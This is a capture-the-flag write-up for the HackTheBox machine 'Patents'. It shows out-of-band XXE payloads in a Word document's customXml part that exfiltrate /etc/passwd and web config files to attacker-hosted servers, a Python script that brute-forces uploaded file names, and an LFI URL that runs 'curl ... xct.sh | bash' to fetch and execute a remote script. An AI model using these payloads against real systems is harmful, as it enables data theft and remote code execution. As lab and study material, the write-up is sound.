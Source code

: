 Patents is a 40-point Linux machine on HackTheBox. For user we exploit an external entity injection in a word document and a local file inclusion that involves path traversal and calculating the name of an uploaded file. For root we use return oriented programming to exploit a stack overflow in a tcp server.

Notes
customXml\item1.xml:

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.8:8000/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
dtd.xml:

<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.8:8000/dtd.xml?%data;'>">
Rce.py:

#!/usr/bin/python3
import hashlib
import datetime
import requests
import time
 
proxyDict = { 
              "http"  : "127.0.0.1:8081", 
            }
 
result = requests.get("http://patents.htb")
dateHdr = result.headers['Date']
t = datetime.datetime.strptime(dateHdr, '%a, %d %b %Y %H:%M:%S GMT')
t -= datetime.timedelta(minutes=5)
it = int(t.timestamp())
 
 
while True: 
    url = f"http://patents.htb/uploads/{hashlib.sha256(b'xct.php' + str(it).encode('utf-8')).hexdigest()}.docx"
    r = requests.get(url)#, proxies=proxyDict)
    if r.status_code == 200:
        print(it)
        print(url)
    it += 1
LFI:

http://patents.htb/getPatent_alphav1.0.php?id=..././uploads/<id>.docx&cmd=curl%2010.10.14.8:8000/xct.sh%20|%20bash
The Root Exploit.

Reads
https://blogs.sap.com/2017/04/24/openxml-in-word-processing-custom-xml-part-mapping-flat-data/
https://0x00sec.org/t/remote-exploit-shellcode-without-sockets/1440
https://github.com/Svenito/exploit-pattern
  
  
##
##
##
  
  
  
Patents was quite a difficult box from gb.yolo (who's now a teammate of mine!) with a realistic pwn in the end.  Overall, it was a very enjoyable box that took a while!  Before I start, I would like to thank D3v17 and pottm, my teammates who worked with me on this box.  Additionally, I would like to thank oep, Sp3eD, R4J, and Deimos who I also colloborated with at times throughout the box and discussed with afterwards.

On the initial nmap scan, we see port 22, 80, and 8888.  Port 8888 seems to be a web server, but none of the browsers would work with it and it mentions something about LFM... I wasn't too sure what this was so I ended up focusing all my efforts on the port 80 webpage.


After a while, I ended up retrieving a lot of enumerated folders back with dirb and gobuster.  None of them really showed anything insightful, and I tried around with XXEs and other possible attack vectors against this document to pdf conversion as it allowed us to upload docx files to convert into pdf files.  I ended up going back to more enumeration to see if anything else more insightful would appear, using different wordlists from seclist.

After a few more hours, the following showed up from Discovery/Web-Content/raft-large-words.txt in the release subdirectory in dirb: http://parent.htb/release/UpdateDetails

It showed the following details:

As Sp3ed mentioned to me, the author keeps mentioning a custom folder and entity parsing there.  Googling around, you can find several references to a customXML part or folder in word documents.  Perhaps this is where we can utilize the XXE!

Starting off, I just created a fresh new word document (you can download samples here: https://file-examples.com/index.php/sample-documents-download/sample-doc-download/) and unzipped the internals, then added a customXML folder.  This SO post also revealed some important information by mentioning how the format within this part should be item#.xml: https://stackoverflow.com/questions/38789361/vsto-word-2013-add-in-add-custom-xml-to-document-xml-without-it-being-visible

Quoting the post:
"The item#.xml files are where custom XML get stored, and it's the only way to store complex data in a Word document without it being a part of the document content. Another program can read it pretty easily, typically using the OpenXML SDK.
So you're doing the right thing here, but whatever software needs to read this needs to look in the customXml folder for that item#.xml file, instead of the word/document.xml file. It will have to look for the namespace you defined."

In that file, I tried some different XXE payloads from here, then remade it into a docx and uploaded it: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter

After a few different payloads, I figured that this is an out of band XXE (hence the link above): https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/

This went into the item1.xml file.

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.6/evil.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

On my local side, I hosted an http server with the evil.xml dtd (the base64 helps make the data exfiltration easier):

<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.6/hahagotcha?%data;'>">

I ended up getting a response pretty quickly:


Basically, the xml parser requests the dtd file hosted on my side, which then tells it to load the target file and then send the data in the form of base64 encoded data back to me.  Anyways, let's try to get some useful information!  Turns out looking at vhost data can provide some interesting insight!  I thought vhost because none of the other files dirb/gobuster found seemed to be able to be exfiltrated.

<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/apache2/sites-available/000-default.conf">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.6/hahagotcha?%data;'>">

After base64 decoding the output, we see the following:

<VirtualHost *:80>
  DocumentRoot /var/www/html/docx2pdf

  <Directory /var/www/html/docx2pdf/>
      Options -Indexes +FollowSymLinks +MultiViews
      AllowOverride All
      Order deny,allow
      Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

Ah, so the root dir for this web server is at docx2pdf!  Now, taking a look at config.php:

<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/docx2pdf/config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.6/hahagotcha?%data;'>">

Here's the decoded result:

<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>



##
##
  
